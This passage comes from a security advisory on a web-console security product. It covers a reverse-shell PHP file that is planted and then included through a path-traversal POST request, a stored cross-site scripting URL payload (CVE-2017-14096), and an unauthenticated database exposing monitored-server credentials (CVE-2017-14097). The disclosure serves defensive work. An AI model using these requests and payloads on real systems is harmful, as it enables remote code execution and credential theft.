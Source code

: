 After triggering an update from the Web console, the PHP script is written to the expected location.


```
[root@ localhost activeupdate]# ls -lha /var/tmcss/activeupdate/ | grep php
-rw-r--r--. 1 webserv webserv 66 ago 25 22:59 rshellPoolManager.php
```

The final step is to include the script and execute our payload.



```
POST /widget/inc/widget_package_manager.php?sid=dj0efdmskngvt4lbhakgc6cru7 HTTP/1.1
Host: 192.168.45.186:4343
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
X-Requested-With: XMLHttpRequest
X-Request: JSON
X-CSRFToken: dj0efdmskngvt4lbhakgc6cru7
Content-Type: application/json; charset=utf-8
Content-Length: 122
Cookie: dj0efdmskngvt4lbhakgc6cru7=dj0efdmskngvt4lbhakgc6cru7
Connection: close

{"act": "check", "update_type": "../../../../../../../../../var/tmcss/activeupdate/rshell"}
```


Steven Seeley and Roberto Suggi Liverani presented various privilege escalation vectors to move from webserv to root on their presentation "I Got 99 Trends and a # Is All Of Them". Based on our testing the attacks remain unpatched, so we did not try to find additional ways to escalate privileges.



### 7.4 Stored cross-site scripting

[[CVE-2017-14096](http://cve.mitre.org/cgi-bin/cvename.cgi?name=2017-14096)] The ru parameter of the wcs_bwlists_handler.php script is vulnerable to cross-site scripting. This endpoint is used to manage user defined URLs.

After the rule is inserted, the payload will be executed every time the user opens the user defined URLs section.

The following proof of concept stores code to open an alert box.



```
https://<serverIP>:4343/php/wcs_bwlists_handler.php?sid=2f03bf97fc4912ee&req=mgmt_insert&st=1&ac=0&ru=http%3A%2F%2F%3Cscript%3Ealert(1)%3C%2Fscript%3E&rt=3&ipt=0&ip4=&ip4m=128&cn=&dn=
```



### 7.5 Improper access control

[[CVE-2017-14097](http://cve.mitre.org/cgi-bin/cvename.cgi?name=2017-14097)] The product console includes widgets that can be used to monitor other servers. Credentials to access the servers being monitored, widget logs and other information reside on a SQLite database which can be accessed without authentication at the following URL:
